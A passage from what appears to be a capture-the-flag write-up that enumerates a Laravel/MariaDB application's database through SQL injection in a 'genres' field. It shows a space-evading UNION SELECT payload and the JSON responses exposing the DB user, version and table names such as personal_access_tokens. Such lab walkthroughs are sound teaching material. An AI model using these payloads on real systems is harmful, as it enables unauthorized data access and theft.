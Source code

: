 

The input numbers one through five are in each of these columns, and the
`url` is built from the `file` (as guessed).

#### Database Enumeration

Now I can use that template to make queries into the database. Where I
have "2" and "3" are the only things that can take strings, so I'll
focus there. If I replace "2" with "user()" and "3" with "database()",
it shows the results:



    {
        "status":"success",
        "data":[
            {
                "id":10,
                "file":"laravel@localhost",
                    "genre":"intentions",
                    "created_at":"1970-01-01T00:00:04.000000Z",
                    "updated_at":"1970-01-01T00:00:05.000000Z",
                    "url":"\/storage\/laravel@localhost"
            }
        ]
    }



The user is laravel@localhost, and the database is intentions. I'll use
`version()` to get the version of 10.6.12-MariaDB-0ubuntu0.22.04.1.

I'll change genres to get the list of databases and tables:



    ')/**/UNION/**/SELECT/**/1,table_schema,table_name,4,5/**/from/**/information_schema.tables/**/where/**/table_schema/**/!=/**/'information_schema'#



This will get the database name in the `file` and the table name in the
`genre` of the output, and it will skip tables in the information_schema
table (as those are standard and well defined). It returns:



    {
        "status":"success",
        "data":[
            {
                "id":1,
                "file":"intentions",
                "genre":"gallery_images",
                "created_at":"1970-01-01T00:00:04.000000Z",
                "updated_at":"1970-01-01T00:00:05.000000Z",
                "url":"\/storage\/intentions"
            },
            {
                "id":1,
                "file":"intentions",
                "genre":"personal_access_tokens",
                "created_at":"1970-01-01T00:00:04.000000Z",
                "updated_at":"1970-01-01T00:00:05.000000Z",
                "url":"\/storage\/intentions"
            },
            {
                "id":1,
                "file":"intentions",
                "genre":"migrations",
                "created_at":"1970-01-01T00:00:04.000000Z",